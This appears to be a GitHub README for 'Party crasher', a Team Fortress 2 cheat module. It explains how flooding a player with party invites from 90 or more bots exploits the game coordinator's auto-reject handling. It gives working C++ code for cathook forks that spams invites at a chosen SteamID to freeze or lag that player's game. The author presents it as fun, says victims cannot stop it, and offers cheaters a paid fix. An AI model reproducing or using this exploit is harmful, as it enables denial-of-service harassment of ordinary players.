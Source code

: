 # Party crasher

## What is this and what does it do?
Freezes/Lags someone's tf2 game by mass sending party invites.
The lag/freezes come from shitty code related to game coordinator.
When you send an invite to someone your client first checks to see if they are friends with you. If the target is not friends with you then your game client will not send the invite request. If you are friends with the target then your client will send the invite to gc and gc will send that invite to the target. Then there is another check on the target's end, The target's game client will see if you are friends or not with you. If you are friends with the target then the invite will popup on the target's game and they can accept or decline it. BUT because of shitty code from valve (ily valve <3) if you are not friends with the target then the TARGET'S GAME CLIENT WILL AUTOMATICALLY SEND A REJECT REQUEST TO GC AND IGNORE THE INVITE. When a client automatically ignores the invite from 90 or more bots then thats where the lag comes into play.

### Note: **Premiums work better and can lag even more (and freeze the game too)**
### Another Note: You need a ton of bots, **this wont work with 5 f2p bots**.

## Things you need
1. Party bypass enabled
2. Catbots, like a ton of them (90 or more f2p/premium bots)
3. The code to invitespam :joy:

## Cons and pros
Cons:
- You need a ton of bots to freeze a game (they can be f2p or premium but premiums work better)
Pro:
- Freezes/lags multiple targets (you will need more bots if you want to invitespam more people)
- Works with f2p bots and premium bots
- Legits cannot stop this.

## How to fix it

If you're a legit then there is a simple answer:
- You can't, shit out of luck, yes you are fucked!

If you're a cheater/bot hoster then there is some hope to stop the freezing and lag: 
- hit me up on telegram and slide me some cards then I'll give you a fix to stop your game from freezing or lagging.
- Or you can also just nicely ask however is lagging or freezing your game to stop. (good luck with that =D)

## How to freeze/lag someone's game
This is the fun part!

Put this code into your cathook fork or your cheat paste, then set steamid to whoever you want to freeze or lag and the invtime. (depending if you want to freeze or lag someone's game)

```
#include "common.hpp"

namespace hacks::invitespam
{

static settings::Boolean enabled("invitespam.enable", "false");
static settings::Int steamid("invitespam.target", "-1");
static settings::Int invtime{ "invitespam.invtime", "100" }; // Adjust this if you want to freeze or lag someone's game.

static Timer invtimer{};
static void Paint()
{
    if (!enabled)
        return;
    if (invtimer.test_and_set(*invtime))
    {
        g_IEngine->ClientCmd_Unrestricted(strfmt("tf_party_invite_user %i", *steamid).get());
        g_IEngine->ClientCmd_Unrestricted("tf_party_leave");
    }
}

static InitRoutine init([]() {
    EC::Register(EC::Paint, Paint, "paint_invitespam");
});

} // namespace hacks::invitespam
```


Thats all to it, Enjoy!
